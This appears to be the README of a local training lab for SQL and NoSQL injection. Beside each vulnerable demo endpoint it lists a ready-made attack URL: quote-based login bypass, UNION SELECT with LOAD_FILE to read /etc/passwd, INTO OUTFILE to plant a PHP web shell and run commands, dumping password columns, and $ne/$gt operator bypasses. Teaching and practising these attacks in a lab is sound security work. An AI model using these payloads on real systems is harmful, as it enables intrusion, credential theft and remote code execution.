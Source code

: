 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

# SQL

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100)

## Attack

### Verification

Error when calling this url:

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27)

### List all products

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1)

# Login Example

## Standard

[http://127.0.0.1:8781/login/login.php](http://127.0.0.1:8781/login/login.php)

Enter 'admin', 'admin'

## Attack

### Verification

Enter some credentials. Check url.

Error when calling this url:

[http://127.0.0.1:8781/login/login.php?user=user'&password=pass'](http://127.0.0.1:8781/login/login.php?user=user'&password=pass')

### Circumvent Login

[http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1](http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1)

# File Attacks

## Standard

[http://127.0.0.1:8781/load_file/list_users.php?UserID=2](http://127.0.0.1:8781/load_file/list_users.php?UserID=2)

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT 1,2,3)

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

`http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT LOAD_FILE('/etc/passwd/'),2,3`

## Write code to server

Using LAMP Server:

### Standard

[http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2](http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2)

### Attack

Use `INTO OUTFILE`:

http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8782/cmd.php?cmd=ls

# Generic Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php](http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php)

## Attack

[http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users](http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users)

# Form Skip Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php)

Form to choose a customer showing soft skills

## Verification

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param='](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param=')

# NoSQL

To get an overview of the examples goto http://127.0.0.1:8783/

## Get all products

- [http://127.0.0.1:8783/products.php?product[$gt]=%22%22](http://127.0.0.1:8782/products.php?product[$gt]=%22%22)
- [http://127.0.0.1:8783/products.php?product[$ne]=1](http://127.0.0.1:8782/products.php?product[$ne]=1)

## Get all credentials / Potential login bypass

- [http://127.0.0.1:8783/users.php?user[$ne]=1&pass[$ne]=1](http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1)
